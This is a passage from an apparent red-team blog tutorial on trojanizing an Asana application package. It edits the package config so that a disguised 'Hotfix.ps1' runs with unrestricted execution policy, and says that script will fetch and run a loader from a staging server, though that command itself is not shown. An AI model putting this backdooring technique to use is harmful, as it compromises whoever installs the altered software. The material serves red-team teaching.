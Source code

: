 <img src="/posts/2024-06-11_red_team06/images/filestocopy.png" width=1000px;>

- You can edit files directly in the package editor by right-clicking and selecting edit. Let's modify the config file to point to our staging script called Hotfix.ps1. In this example, I enabled the powershell window to debug any errors. 

```javascript
{
  "applications": [
    {
      "id": "ASANA",
      "executable": "asana.exe",
      "scriptExecutionMode": "-ExecutionPolicy Unrestricted",
      "startScript": {
        "waitForScriptToFinish": true,
        "runOnce": false,
	      "timeOut": 30000,
        "showWindow": true,
        "scriptPath": "Hotfix.ps1"
      }
    }
  ]
}

```
- Create the `hotfix.ps1` file in a different window. We will add a powershell command that pulls our loader from the staging server and executes it
